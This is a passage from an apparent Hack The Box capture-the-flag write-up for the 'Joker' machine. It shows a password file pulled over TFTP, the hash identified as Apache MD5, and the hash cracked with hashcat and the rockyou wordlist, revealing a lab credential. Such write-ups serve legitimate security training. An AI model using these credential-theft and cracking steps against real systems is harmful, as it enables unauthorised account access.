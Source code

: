 ```
root@kali:~/htb/joker# tftp 10.10.10.21
tftp> get passwords
Received 48 bytes in 0.0 seconds
tftp> quit
root@kali:~/htb/joker# cat passwords
kalamari:$apr1$zyzBxQYW$pL360IoLQ5Yum5SLTph.l0
```

Looks like we are in business, we have a hash for what seems to be the proxy user. Let's go ahead and see what kind of hash we have to feed into hashcat.

```
root@kali:~/htb/joker# hash-identifier
   #########################################################################
   #	 __  __ 		    __		 ______    _____	   #
   #	/\ \/\ \		   /\ \ 	/\__  _\  /\  _ `\	   #
   #	\ \ \_\ \     __      ____ \ \ \___	\/_/\ \/  \ \ \/\ \	   #
   #	 \ \  _  \  /'__`\   / ,__\ \ \  _ `\	   \ \ \   \ \ \ \ \	   #
   #	  \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \	    \_\ \__ \ \ \_\ \	   #
   #	   \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/	   #
   #	    \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.1 #
   #								 By Zion3R #
   #							www.Blackploit.com #
   #						       Root@Blackploit.com #
   #########################################################################

   -------------------------------------------------------------------------
 HASH: $apr1$zyzBxQYW$pL360IoLQ5Yum5SLTph.l0

Possible Hashs:
[+]  MD5(APR)
```

I run hashcat on my Windows machine directly, there are workarounds to get it to run in Kali but even then I don't believe you can passthru the host GPU to your VM. It's much easier to download hashcat and run the exe on windows.

Let's run hashcat, see if we can find the option for MD5(APR), and crack the hash.
```
C:\hashcat-3.5.0> .\hashcat64.exe --help | findstr apr
   1600 | Apache $apr1$ MD5, md5apr1, MD5 (APR)            | HTTP, SMTP, LDAP Server

C:\hashcat-3.5.0> .\hashcat64.exe -m 1600 -a 0 -o crackedjoker .\jokerhash.txt .\rockyou.txt
hashcat (v3.5.0) starting...

...
Output Truncated
...

C:\hashcat-3.5.0> type .\crackedjoker
$apr1$zyzBxQYW$pL360IoLQ5Yum5SLTph.l0:ihateseafood
```

So we have the password for the user kalamari as `ihateseafood`. After browsing to localhost or `127.0.0.1` and inputting our newly found credentials we are presented with a webpage.
